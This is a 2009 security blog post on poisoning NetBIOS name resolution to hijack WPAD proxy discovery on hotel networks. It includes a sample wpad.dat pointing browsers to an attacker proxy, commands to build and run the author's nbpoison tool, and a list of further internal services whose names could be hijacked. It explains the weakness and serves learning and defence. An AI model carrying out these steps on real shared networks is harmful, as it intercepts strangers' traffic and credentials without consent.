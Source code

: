 ```yaml
---
id: 359
title: 'Pwning hotel guests'
date: '2009-11-19T22:20:58-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=359'
permalink: '/?p=359'
---
```


Greetings everybody!

I spent a good part of the past month traveling, which meant staying in several hotels, both planned and unplanned. There's nothing like having a canceled flight and spending a boring night in San Francisco! But hey, why be bored when you have a packet sniffer installed? :)

Disclaimer: running a sniffer on somebody else's network may or may not be illegal; the only advice I can give is the guy down at Kinko's said it's okay.

Now, before I get to the fun, we need to step back and talk about NetBIOS name resolution a bit. My [very first post](http://www.skullsecurity.org/blog/?p=6) on this blog was actually about NetBIOS and my NBTool suite, and you may want to review it because this'll be a quick crash course.

## NetBIOS review

When Windows attempts to resolve domain names, it uses to DNS first. Assuming nobody has [hijacked their DHCP request](http://www.windowsecurity.com/articles/DHCP-Security-Part1.html) and fed them bad DNS servers, and nobody is performing [ARP spoofing](http://www.hackinthebox.org/modules.php?op=modload&name=News&file=article&sid=12868&mode=thread&order=0&thold=0) to redirect traffic, it'll go out to their DNS server. The DNS server, assuming it hasn't been [poisoned](http://en.wikipedia.org/wiki/DNS_cache_poisoning) or [hijacked](http://en.wikipedia.org/wiki/DNS_hijacking), will respond with the proper IP address. (It's a miracle anybody gets work done on the Internet, isn't it?)

If DNS fails, Windows tries [NetBIOS name resolution](http://en.wikipedia.org/wiki/NetBIOS#Name_service). It's this resolution that lets you type "ping FREDSBOX" and, if FREDSBOX is alive, it'll resolve. While useful on a trusted network (haha, trusted network...), this resolution really just amounts to a broadcast saying "Who has XXX?" The thoughtful servers on the network, unless they're legitimately named "XXX", look down and shuffle their feet, and the server named "XXX" will say "hey, that's me!" But what's stopping an attacker from also claiming to be "XXX"?

Nothing.

That's why, in a fateful moment of usefulness, I wrote [NBTool](http://www.skullsecurity.org/wiki/index.php/Nbtool).

## NBTool?

One of the tools included with NBTool, called nbpoison, will intercept requests and respond with a requested address. With the -c (or conflict) flag, it'll even inform other servers that they don't own a name. That might cause services to break, though, and some versions of Windows will pop up a warning when a conflict occurs. But such is life.

When you supply -c, you end up with traffic that looks like:

- FREDSBOX: (having just booted) Hey guys, just FYI, I'm FREDSBOX
- Attacker: No, sir, you are not; I am FREDSBOX
- FREDSBOX: k, sorry (from then on, FREDSBOX won't respond to his own name)

So anyway, I wrote that awhile ago, and had some fun showing off to our co-op students ("look! going to 'www.yahoo.colm' takes you to Google! Isn't that funny?" (their answer was inevitably "no")), but then I shelved it to work on [things people actually care about](http://nmap.org).

What I hadn't realized was, there are more fun things you can do! Let's have a look.

## Where'd that WPAD server go...?

One of the first things I noticed after running a packet capture in a hotel was this:  
![](/blogdata/WPAD.png)

I saw some workstations desperately trying to find a server called WPAD, and I couldn't get over how familiar WPAD looked. Word Press \[something\]? \[something\] Active Directory? Is it a blog thing? Bah!

So, I looked it up on the [Old Farmers Wikipedia](http://futurama.wikia.com/wiki/Old_Farmers_Wikipedia), and found it: Web Proxy Auto Discovery. Of course! This must be somebody's browser trying to find a proxy server. Wait... somebody's browser is broadcasting a request for a proxy server? And it's willing to trust people to tell it which proxy to use? Awesome!

Now, this is where I stopped. Despite what the guy at Kinko's said, I'm not comfortable with actually redirecting people's traffic. That wouldn't be nice at all, and I'm reasonably sure it steps over that legal line. But, here's what one *could* do...

### Step 1: Set up a logging proxy

[Burp Suite](http://portswigger.net/suite/) and [Paros](http://www.parosproxy.org/), among others, would work great. It's especially fun because they'll decrypt SSL for you, and evil let you modify requests/responses!

### Step 2: Set up a Web server

Set up a Web server (or a [netcat](http://netcat.sourceforge.net/) listener) that'll serve up a /wpad.dat file pointing to your logging proxy. I'm no expert on writing WPAD files, but I [found this one online](http://www.craigjconsulting.com/proxypac.html):

```
function FindProxyForURL(url, host)
{
  return "PROXY 192.168.100.123:8080";
}
```

### Step 3: Start poisoning requests

```
$ wget http://www.skullsecurity.org/downloads/nbtool-0.02.tar.gz
$ tar -xvvzf nbtool-0.02.tar.gz
$ cd nbtool-0.02
$ make
$ sudo ./nbpoison -s 192.168.100.123
```

(nbpoison has to run as root because it listens on UDP port 137)

As of the current version, there's no way to actually pick and choose domains; it's all or nothing. So, every NetBIOS request will evoke a response. That can be fun, of course, but at some point I'll add a domain name argument.

### Step 4: Watch the traffic

If all goes according to plan, anybody set to use auto-configured proxies will start using your proxy, and you can see what they're up to. And great times will be had by all!

## Other attacks

Hijacking the WPAD file is cool, but what else can you do?

Well, it turns out that any internal server that the computers are configured to use will send out NetBIOS requests, because, for obvious reasons, their internal servers aren't listed in DNS. That can include, but isn't limited to:

- Exchange (or other email) server
- File shares
- Instant messenger servers
- Proxy server
- Browser's homepage
- Time reporting
- Issue tracking
- Internal news feeds
- Development server
- etc.

If you start hijacking names and hosting Web servers, SMB servers, etc, you may start seeing interesting requests. You'll want to run Wireshark, as well, to see what else is trying to connect to you. It'll be a party!

## So, what's the big deal?

Yes, this is the key. What IS the big deal? So you can redirect somebody who's on the same subnet as you. Why not use ARP spoofing? DHCP poisoning? Other subnet-based attacks?

And that'd be a great question. This is yet another member of a long line of evil things you can do on a subnet. Not to mention scores of attacks against unsecured wireless, which hotels seem to like!

The biggest advantage I see is that this attack is fairly quiet, keeping a very low profile. Somebody who isn't performing NetBIOS resolutions won't even know that somebody's out there, and somebody who is will probably get expected error pages when they DO attempt a request. Additionally, when it comes right down to it, there's a much smaller chance of screwing things up with NetBIOS poisoning than other LAN attacks.

Thanks for reading!